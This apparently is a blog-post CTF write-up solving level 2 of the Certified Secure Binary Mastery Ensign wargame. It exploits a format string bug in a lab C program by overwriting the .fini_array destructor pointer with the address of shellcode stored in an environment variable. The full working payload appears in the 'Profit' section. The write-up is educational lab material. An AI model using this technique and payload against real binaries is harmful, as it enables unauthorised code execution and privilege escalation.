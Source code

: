 ```yaml
---
title:  "[CTF] Binary Master Ensign - 2"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-yellow.png)

We'll continue with level2 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). This time it will be another classic issues that needs no introduction - _uncontrolled format strings attacks_. To review the previous level, check the link below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8266
0 packages can be updated.
0 updates are security updates.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   level2
```

NX is disabled and now there *is* a stack canary. But let's not worry about this yet, because we might not even be bothered by the presence of the canary. Let's verify that the stack is executable:
```
$ readelf -lW level2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous level that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

What we have here is a classic uncontrolled format string vulnerability. The value of _buf_ comes from the user and is passed directly as a format string to the _printf_ call. There are so many excellent resources on this type of issues, there is no need for further details. If you're not familiar with it, for a better understanding, please check at least the following two papers. For brevity I will skip most of the details regarding the methodlogy which can be found in those papers.
* team teso - [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* Saif El-Sherei - [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)

```c
#include <stdio.h>
#include <string.h>

__attribute__((destructor)) void end(void) {
        printf("Bye!\n");
}

void helloworld(char* name) {
        char buf[128];

        strncpy(buf, name, 127);
        buf[127] = '\0';

        printf("Hello ");
        printf(buf);
        printf("!\n");
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        helloworld(argv[1]);

        return 0;
}
```

While we're here looking at the code, see if you notice anything unusual. What about the presence of the destructor function that just prints **"Bye!"**? Couldn't that be done just as a normal _printf_ call at the end of the _main_ function? Maybe it is a hint of some sort. Keep that in mind for later!

## 2 - Exploitation

Using the techniques from the second paper mentioned above, we can read and also overwrite any memory location. Exploitation steps:
* Place a shellcode in an environment variable.
* Find the address of the environment variable on the stack.
* Use the format string vulnerability to overwrite the address of the destructor **end** with the address of our environment variable.

To generate an appropriate shellcode and place it in an environment variable, check the previous post. To find out the address of our environment variable on the stack, again check the previous level.

First thing is to find out the address of the _end_ destructor. IDA Pro shows this really quickly if we check the **_.fini_array_** section. Notice also the permissions of this section. This is important because we want to overwrite the location of _end_ function with an address we control.

<img src="/assets/images/bm2-1.png" alt="ida destructor" class="figure-body">

We can also use Linux tools to get the same information:

```bash
$ readelf -S  level2    
There are 30 section headers, starting at offset 0x9b8:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000080 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000074 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482a0 0002a0 000010 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482b0 0002b0 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482e0 0002e0 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482e8 0002e8 000030 08   A  5  12  4
  [11] .init             PROGBITS        08048318 000318 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048340 000340 000070 04  AX  0   0 16
  [13] .text             PROGBITS        080483b0 0003b0 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        080485f4 0005f4 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048608 000608 000028 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        08048630 000630 00003c 00   A  0   0  4
  [17] .eh_frame         PROGBITS        0804866c 00066c 0000f0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      0804975c 00075c 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049760 000760 000008 00  WA  0   0  4
  [20] .jcr              PROGBITS        08049768 000768 000004 00  WA  0   0  4
  [21] .dynamic          DYNAMIC         0804976c 00076c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049854 000854 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049858 000858 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804987c 00087c 000008 00  WA  0   0  4
  [25] .bss              NOBITS          08049884 000884 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 000884 00002b 01  MS  0   0  1
  [27] .shstrtab         STRTAB          00000000 0008af 000106 00      0   0  1
  [28] .symtab           SYMTAB          00000000 000e68 000480 10     29  45  4
  [29] .strtab           STRTAB          00000000 0012e8 0002a1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

Notice that section 19 - _.fini\_array_ is writable. Exactly what we need. And to dump the section in hex:

```bash
$ readelf --hex-dump=.fini_array level2

Hex dump of section '.fini_array':
  0x08049760 60840408 ad840408                   `.......
```
Second element at 0x08049764 is ad840408, or 0x080484ad - exactly the address of function **end**:
```bash
gdb-peda$ x/wx 0x08049764
0x8049764:      0x080484ad
gdb-peda$ p end
$4 = {<text variable, no debug info>} 0x80484ad <end>
```

Next we need to play a bit with the format string in order to discover how to correctly overwrite the value at address 0x08049764. Again, more explicit details on how to do this can be found in the second referenced paper.  So let's place our shellcode in the EGG environment variable, as we did before and get its address:

```bash
$  /tmp/level2-mod aaa
Hello aaa!
EGG address: 0xffffd8d3
```

**Warning!** If you're testing your exploit in GDB first (and you should), the address of the environment variables on the stack will be slightly different than outside GDB. While in GDB, you can print these addresses  by iterating through the _environ_ array. In my testcase the EGG variable was the 5th element:

```
(gdb) x/s *((char **)environ+4)
0xffffd903:     "EGG=", 'A' <repeats 19 times>
```

This means that in GDB the shellcode begins at **0xffffd903+4** (we add the length of the string _EGG=_ ).

Finding the correct format string involved a bit of trial and error, but in the end I managed to overwrite the address of _end_ destructor with my address.

## 3 - Profit

```
$ /levels/level2 $(printf "\x64\x97\x04\x08JUNK\x65\x97\x04\x08JUNK\x66\x97\x04\x08JUNK\x67\x97\x04\x08")%x%x%x%x%x%149x%n%261x%n%39x%n%256x%n
$ /home/level3/victory
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                            
Subject: Victory!                         
                                          
Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery ensign)
   * the exploit
   
You can now start with level3. If you want, you can log in
as level3 with password  [REDACTED]
```

In the [next level]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %}) we'll deal with more buffer related issues and some logical vulnerabilities as well.
